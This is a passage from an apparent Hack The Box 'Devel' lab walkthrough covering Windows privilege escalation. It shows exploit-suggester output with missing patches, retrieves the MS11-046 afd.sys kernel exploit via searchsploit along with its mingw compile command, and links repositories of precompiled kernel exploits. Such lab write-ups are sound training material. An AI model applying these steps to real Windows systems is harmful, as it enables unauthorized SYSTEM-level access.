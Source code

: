 ```bash
Exploits: http://www.securityfocus.com/bid/37864, http://lock.cmpxchg8b.com/c0af0967d904cef2ad4db766a00bc6af/KiTrap0D.zip

[-] Missing patches: 4
    - KB2778930: patches 1 vulnerability
    - KB2503665: patches 1 vulnerability
    - KB2393802: patches 1 vulnerability
    - KB977165: patches 1 vulnerability
[I] KB with the most recent release date
    - ID: KB2778930
    - Release date: 20130108
[+] Done. Displaying 4 of the 236 vulnerabilities found.
```


### MS11-046 (CVE-2011-1249)

Failed to compile the first `CVE-2013-0008` exploit

Use `CVE-2011-1249` - [MS11-046](https://technet.microsoft.com/library/security/ms11-046) instead

```bash
searchsploit ms11-046
```

```bash
┌──(kali㉿kali)-[~/htb/Devel]
└─$ searchsploit -m 40564
  Exploit: Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
      URL: https://www.exploit-db.com/exploits/40564
     Path: /usr/share/exploitdb/exploits/windows_x86/local/40564.c
    Codes: CVE-2011-1249, MS11-046
 Verified: True
File Type: C source, ASCII text
Copied to: /home/kali/htb/Devel/40564.c
```

> These git repos contains a lot of pre compiled windows kernel exploits, very handy
> > https://github.com/SecWiki/windows-kernel-exploits
> > https://github.com/Ascotbe/Kernelhub
{: .prompt-info }

Get compile instruction

```bash
┌──(kali㉿kali)-[~/htb/Devel]
└─$ cat 40564.c|grep compil -E2

#   Privileged shell execution:

#     - the SYSTEM shell will spawn within the invoking shell/process

#   Exploit compiling (Kali GNU/Linux Rolling 64-bit):

#     - # i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32

#   Exploit prerequisites:
```
